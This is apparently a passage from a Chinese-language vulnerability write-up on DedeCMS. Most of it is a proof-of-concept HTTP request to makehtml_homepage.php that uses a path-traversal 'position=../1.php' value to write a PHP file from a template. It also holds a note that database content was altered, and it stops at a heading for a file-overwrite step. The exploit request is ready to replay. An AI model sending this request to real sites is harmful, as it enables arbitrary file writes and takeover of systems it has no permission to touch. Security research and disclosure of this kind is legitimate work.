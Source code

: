  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PQKVybK53SL9QOia5lVoz2cmXISWJjIHibn51KZOXeFWPKm84wVOiaLr0w/640?wx_fmt=png&from=appmsg "")  
  
  
  
Poc  
  

```
POST /dede/makehtml_homepage.php HTTP/1.1

Host: dede.test.com

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=a8g7jmunlsc13k921p5i7e5idh; _csrf_name_65a662a9=fe9ab3ba5fb0c17275051ecaf0cd79f3; _csrf_name_65a662a91BH21ANI1AGD297L1FF21LN02BGE1DNG=14d49edb9c9ca536; XDEBUG_SESSION=XDEBUG_ECLIPSE; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=bd2d5486c005cdd5; DedeLoginTime=1722498125; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=82a6253c29408017

Accept-Encoding: gzip, deflate, br

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 59

dopost=make&saveset=1&templet=phpinfo.png&position=../1.php
```

  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PJP9VvqZcy9AibibbBLB4hI0uG9kzYfL4qEP91u3jk42yq6HibrmEM8kSg/640?wx_fmt=png&from=appmsg "")  
  
  
  
发现数据库中的内容被更改为我们指定的内容  
  
  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP9lFFYibWHibiaWmDlNXibw28PzzHZCqG68gPicov4iaO2tcPghxgRVPSW1CPtQCeVicicicLRBj8YclQxlrw/640?wx_fmt=png&from=appmsg "")  
  
  
### 第三步 文件覆盖操作  
  